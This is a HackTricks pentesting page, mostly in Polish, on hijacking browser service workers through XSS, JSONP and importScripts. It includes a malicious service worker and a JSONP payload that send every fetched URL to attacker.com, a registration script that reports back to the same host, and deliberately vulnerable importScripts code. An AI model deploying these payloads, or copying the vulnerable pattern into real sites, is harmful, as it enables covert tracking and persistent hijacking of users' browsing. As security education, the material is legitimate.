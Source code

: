 # Abusing Service Workers



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Basic Information

**Service worker** to skrypt uruchamiany przez przeglądarkę w tle, oddzielony od jakiejkolwiek strony internetowej, umożliwiający funkcje, które nie wymagają strony internetowej ani interakcji użytkownika, co zwiększa możliwości **pracy offline i w tle**. Szczegółowe informacje na temat service workerów można znaleźć [tutaj](https://developers.google.com/web/fundamentals/primers/service-workers). Wykorzystując service workery w ramach podatnej domeny internetowej, atakujący mogą przejąć kontrolę nad interakcjami ofiary ze wszystkimi stronami w tej domenie.


### Checking for Existing Service Workers

Istniejące service workery można sprawdzić w sekcji **Service Workers** w zakładce **Application** w **Narzędziach deweloperskich**. Inną metodą jest odwiedzenie [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) w celu uzyskania bardziej szczegółowego widoku.

### Push Notifications

**Uprawnienia do powiadomień push** bezpośrednio wpływają na zdolność **service workera** do komunikacji z serwerem bez bezpośredniej interakcji użytkownika. Jeśli uprawnienia są odrzucane, ogranicza to potencjał service workera do stwarzania ciągłego zagrożenia. Z drugiej strony, przyznanie uprawnień zwiększa ryzyko bezpieczeństwa, umożliwiając odbieranie i wykonywanie potencjalnych exploitów.

## Attack Creating a Service Worker

Aby wykorzystać tę lukę, musisz znaleźć:

* Sposób na **przesłanie dowolnych plików JS** na serwer oraz **XSS do załadowania service workera** przesłanego pliku JS
* **Podatne żądanie JSONP**, w którym możesz **manipulować wyjściem (z dowolnym kodem JS)** oraz **XSS** do **załadowania JSONP z ładunkiem**, który **załaduje złośliwego service workera**.

W następującym przykładzie zaprezentuję kod do **rejestracji nowego service workera**, który będzie nasłuchiwał zdarzenia `fetch` i **wyśle do serwera atakującego każdą pobraną URL** (to jest kod, który musisz **przesłać** na **serwer** lub załadować za pomocą **podatnej odpowiedzi JSONP**):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
A oto kod, który **zarejestruje pracownika** (kod, który powinieneś być w stanie wykonać, wykorzystując **XSS**). W tym przypadku **żądanie GET** zostanie wysłane do serwera **atakującego**, **informując**, czy **rejestracja** pracownika serwisowego była udana, czy nie:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
W przypadku nadużywania podatnego punktu końcowego JSONP, powinieneś umieścić wartość wewnątrz `var sw`. Na przykład:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
There is a **C2** dedicated to the **exploitation of Service Workers** called [**Shadow Workers**](https://shadow-workers.github.io) that will be very useful to abuse these vulnerabilities.

The **24-hour cache directive** limits the life of a malicious or compromised **service worker (SW)** to at most 24 hours after an XSS vulnerability fix, assuming online client status. To minimize vulnerability, site operators can lower the SW script's Time-To-Live (TTL). Developers are also advised to create a [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) for rapid deactivation.

## Abusing `importScripts` in a SW via DOM Clobbering

Funkcja **`importScripts`** wywołana z Service Worker może **zaimportować skrypt z innej domeny**. Jeśli ta funkcja jest wywoływana z użyciem **parametru, który mógłby** zmodyfikować atakujący, mógłby **zaimportować skrypt JS z jego domeny** i uzyskać XSS.

**To nawet omija zabezpieczenia CSP.**

**Example vulnerable code:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Z DOM Clobbering

Aby uzyskać więcej informacji na temat tego, czym jest DOM Clobbering, sprawdź:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Jeśli URL/domena, z której SW korzysta, aby wywołać **`importScripts`**, znajduje się **wewnątrz elementu HTML**, **możliwe jest modyfikowanie go za pomocą DOM Clobbering**, aby SW **załadował skrypt z twojej własnej domeny**.

Aby zobaczyć przykład, sprawdź link referencyjny.

## Referencje

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
